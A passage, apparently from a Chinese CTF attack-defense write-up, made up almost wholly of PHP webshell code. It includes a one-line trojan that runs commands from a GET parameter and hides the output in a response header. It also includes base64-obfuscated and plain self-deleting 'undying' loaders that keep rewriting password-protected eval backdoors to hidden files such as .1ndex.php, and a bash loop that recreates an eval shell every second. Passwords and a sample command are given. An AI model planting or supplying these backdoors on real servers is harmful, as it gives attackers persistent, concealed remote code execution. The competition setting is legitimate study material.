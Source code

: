 可以改造成header返回的马，可以把这个一句话木马放到index.php中，直接访问index.php，从header中拿到flag，既不容易被发现马，又不容易被其他队利用

```
&lt;?php $a=1;$b="a=".$_GET['a'];parse_str($b);$k=(`$a`);header('cookie:'.$k);?&gt;

$a=1;$b="a=".$_GET['a'];parse_str($b);$k=(`$a`);header('cookie:'.$k);
```

#### <a class="reference-link" name="%E4%B8%8D%E6%AD%BB%E9%A9%AC"></a>不死马
- php file_put_contents写入不死马
```
file_put_contents('.1ndex.php',base64_decode('PD9waHAgIAogICAgc2V0X3RpbWVfbGltaXQoMCk7ICAKICAgIGlnbm9yZV91c2VyX2Fib3J0KDEpOyAgCiAgICB1bmxpbmsoX19GSUxFX18pOyAgCiAgICB3aGlsZSgxKXsgIAogICAgICAgIGZpbGVfcHV0X2NvbnRlbnRzKCcubG5kZXgucGhwJywnPD9waHAgaWYobWQ1KCRfR0VUWyJwYXNzIl0pPT0iNTAxNjBjMmVjNGY0MGQ3M2Y5MDYxZjg5NjcxMjExNTciKXtAZXZhbCgkX1BPU1RbImNtZCJdKTt9ID8+Jyk7ICAKICAgICAgICBzbGVlcCgwKTsgIAogICAgfQo/Pg=='));
```

get：pass=ocean888@.cn

post：cmd=system(“ls”);
- linux命令不死马
```
while true;do echo '&lt;?php eval($_POST["x"]);?&gt;' &gt; x.php;sleep 1;done
```
- 普通php不死马
```
&lt;?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.index.php';
$code = '&lt;?php if(md5($_GET["pass"])=="b1d2442581854c7e769e8ad870b50acd")`{`@eval($_REQUEST[a]);`}` ?&gt;';
while (1)`{`
    file_put_contents($file,$code);
    usleep(5);
`}`
?&gt;


#密码 ocean888@.cn
#文件名 .index.php  .DS_story

&lt;?php
    set_time_limit(0);
    ignore_user_abort(1);
    unlink(__FILE__);
    //file_put_contents(__FILE__,'');
    while(1)`{`
        file_put_contents('path/webshell.php','&lt;?php @eval($_POST["password"]);?&gt;');
    `}`
?&gt;
```

